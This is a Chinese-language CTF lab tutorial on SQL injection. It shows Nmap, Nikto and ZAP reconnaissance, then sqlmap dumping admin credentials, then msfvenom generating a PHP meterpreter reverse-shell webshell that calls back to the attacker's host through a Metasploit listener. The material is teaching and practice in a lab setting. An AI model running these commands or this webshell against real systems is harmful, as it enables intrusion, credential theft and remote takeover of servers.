







# CTF夺旗赛教程：P12：14.CTF夺旗-sql注入



## 概述
在本节课中，我们将要学习Web安全中的SQL注入漏洞。我们将通过一个完整的实验流程，演示如何利用SQL注入漏洞获取后台登录凭证，并最终上传Webshell以获取系统权限和Flag值。

## SQL注入漏洞简介
上一节我们介绍了本节课的目标，本节中我们来看看什么是SQL注入漏洞。

SQL注入漏洞，即SQL注入攻击，指的是通过构建特殊的输入作为参数传入Web应用程序中。这些输入大都是SQL语句里的一些组合。通过执行我们构造的SQL语句，进而执行我们想要的操作。

SQL注入漏洞产生的原因是程序没有细致地过滤用户输入的数据，致使非法数据侵入系统并执行了对应的操作。

SQL注入产生的原因通常表现在以下几个方面：
*   不正当的类型处理。
*   不安全的数据库配置。
*   不合理的查询集处理。
*   不当的错误处理。
*   转义字符处理不当。
*   多个提交处理不当。

实际上，本质原因是程序允许用户输入，而用户输入了恶意字符后，系统没有对其过滤或过滤不严格，从而导致SQL注入漏洞的出现。

## 实验环境搭建
在开始利用漏洞之前，我们需要先了解一下今天的实验环境。

攻击机的IP地址是 `192.168.253.12`，采用的是Kali Linux系统。靶场机器的IP地址是 `192.168.253.15`。

不论在日常工作还是CTF比赛中，我们的核心目标都是获得靶场机器的控制权。在CTF比赛中，获得root权限后，还需要找到并提交对应的Flag值。

## 信息收集与探测
下面我们带今天的实验环境来进行测试。在测试的第一步，我们需要对靶场机器进行信息探测。

首先，我们要探测靶场机器开放的服务信息以及服务的版本信息。我们使用Nmap工具，命令为 `nmap -sV [靶场IP]`。

打开终端，输入命令：
```bash
nmap -sV 192.168.253.15
```
Nmap会向靶场发送探测数据包，并将处理后的响应信息输出。探测完成后，我们可以查看开放了哪些服务。



除了探测服务版本，我们还可以使用其他命令来探测更多信息。以下是使用Nmap进行深度探测的命令：
```bash
nmap -T4 -A -v 192.168.253.15
```
参数 `-T4` 代表使用最快速度探测，`-A` 表示启用所有探测模块，`-v` 表示显示详细输出。



我们还可以对具体的服务进行更细致的探测。以下是使用Nikto工具探测HTTP服务敏感信息的命令：
```bash
nikto -host http://192.168.253.15
```
如果HTTP服务使用默认的80端口，端口号可以省略。如果不是80端口（例如8080），则需要加上 `:端口号`。

我们输入命令进行探测：
```bash
nikto -host http://192.168.253.15
```
探测速度较快，并返回了敏感信息，例如PHP版本等。

## 信息分析与漏洞扫描
探测完信息后，我们需要对这些信息进行分析，深入挖掘内部可以利用的信息。

分析Nmap和Nikto的扫描结果后，我们发现了一个敏感页面：`/admin/login.php`，这是一个用户登录页面。



我们在浏览器中访问该页面：`http://192.168.253.15`。我们发现这是一个登录界面。我们尝试使用弱口令 `admin/admin` 登录，但未能成功，说明系统不存在此弱口令。

我们现在的目标是进入系统后台。因此，下一步操作是挖掘系统是否存在可利用的漏洞，以便获得用户名和密码。

接下来，我们将使用漏洞扫描器对系统进行漏洞扫描。今天使用的是Kali中集成的Web安全扫描器：OWASP ZAP。它是一个自动化的Web应用程序安全测试工具。

打开ZAP软件，在快速启动界面输入靶场地址 `http://192.168.253.15`，然后点击“Attack”按钮开始主动扫描。扫描器会先爬取站点所有页面，然后根据策略对每个页面进行安全性检测。



扫描完成后，界面会跳转到“Alerts”模块。我们可以看到不同颜色的旗帜标志：深红色代表高危漏洞，黄色代表中危漏洞，浅黄色代表低危漏洞。扫描结果显示存在反射型XSS以及SQL注入漏洞。今天我们将利用SQL注入漏洞来获取数据库中的用户名和密码。

## 利用SQL注入获取凭证
接下来，我们对扫描到的SQL注入漏洞进行利用。SQL注入是一个高危漏洞，可以直接获取服务器权限或数据库中的敏感信息。

下面我们使用SQLMap工具来利用当前的SQL注入漏洞。操作步骤如下：
1.  使用 `sqlmap -u “URL” --dbs` 查看数据库名。
2.  通过查到的数据库名，使用 `-D 数据库名 --tables` 查看该数据库下的数据表。
3.  使用 `-D 数据库名 -T 表名 --columns` 查看对应表的字段（列名）。
4.  知道了数据库名、表名、列名后，就可以使用 `--dump` 查看字段中存储的具体数据。

我们来实践一下。首先从ZAP的扫描结果中复制出存在注入点的URL。在终端中使用SQLMap进行测试：
```bash
sqlmap -u “http://192.168.253.15/vuln.php?id=1”
```
不加任何参数，先探测该ID参数是否存在SQL注入漏洞。结果显示存在布尔盲注、报错注入和时间盲注等多种注入方式。

首先，我们来查看数据库：
```bash
sqlmap -u “http://192.168.253.15/vuln.php?id=1” --dbs
```
返回了两个数据库名：`information_schema` 是系统自带数据库，我们不需要；另一个是 `portal_block`，这是我们目标数据库。

接下来，查看 `portal_block` 数据库下的表：
```bash
sqlmap -u “http://192.168.253.15/vuln.php?id=1” -D portal_block --tables
```
返回了三个表名。因为我们想获取后台登录的用户名和密码，所以 `users` 表是我们的目标。

然后，获取 `users` 表的字段名：
```bash
sqlmap -u “http://192.168.253.15/vuln.php?id=1” -D portal_block -T users --columns
```
返回了该表对应的字段。现在，我们来获取 `login` 和 `password` 字段的具体数据：
```bash
sqlmap -u “http://192.168.253.15/vuln.php?id=1” -D portal_block -T users -C login,password --dump
```
返回了用户名 `admin` 及其密码的MD5密文。系统自带的哈希识别功能破解出该MD5密文对应的明文是 `P4SSW0RD`。

## 登录后台与上传Webshell
获取到用户名和密码后，我们使用它来登录系统。打开登录界面，输入用户名 `admin` 和密码 `P4SSW0RD`，点击登录。成功登录系统后台。

登录之后，下一步操作是上传一个Webshell，以便反弹一个Shell回连到我们的攻击机，从而执行服务器命令。





在上传Webshell之前，我们需要生成Webshell文件，并启动监听来等待反弹回来的Shell连接。

在Kali中打开终端，使用MSFVenom生成一个PHP的反弹Shell：
```bash
msfvenom -p php/meterpreter/reverse_tcp LHOST=192.168.253.12 LPORT=4444 -f raw
```
`LHOST` 需要设置为攻击机（Kali）的IP地址，`LPORT` 是监听的端口。我们检查一下4444端口是否被占用：
```bash
netstat -tlnp | grep 4444
```
发现4444端口未被占用，可以使用。执行生成命令后，会输出一段PHP代码。我们从 `<?php` 开始复制这段代码。

在桌面新建一个PHP文件，并将复制的代码粘贴进去：
```bash
gedit /root/Desktop/shell.php
```
保存并关闭文件。这样我们就生成了Webshell文件。

接下来，我们需要在攻击机上设置监听端。打开Metasploit控制台：
```bash
msfconsole
```
加载`exploit/multi/handler`模块，并设置与生成Webshell时相同的Payload和参数：
```bash
use exploit/multi/handler
set payload php/meterpreter/reverse_tcp
set LHOST 192.168.253.12
set LPORT 4444
```
最后，执行 `exploit` 或 `run` 命令开始监听。

现在，我们需要在网站后台寻找文件上传点，将生成的 `shell.php` 文件上传到服务器。上传成功后，在浏览器中访问这个Webshell文件的URL，它将触发并反向连接到我们正在监听的Metasploit，从而给我们返回一个Meterpreter会话。

获得Meterpreter会话后，我们就拥有了对靶场服务器的控制权。此时，可以在目标服务器上执行命令、浏览文件系统，最终找到并读取Flag文件，完成挑战。

## 总结
本节课中我们一起学习了SQL注入漏洞的完整利用流程。我们从信息收集开始，使用Nmap、Nikto进行探测，然后利用OWASP ZAP进行漏洞扫描，发现SQL注入点。接着，使用SQLMap工具自动化利用注入漏洞，成功获取了后台管理员账户的密码。登录后台后，通过文件上传功能将Webshell上传至服务器，并利用Metasploit框架获得了一个反向Shell，最终取得了服务器的控制权。这个流程涵盖了从外网信息收集到获取系统权限的多个关键步骤，是CTF比赛和渗透测试中的经典攻击路径。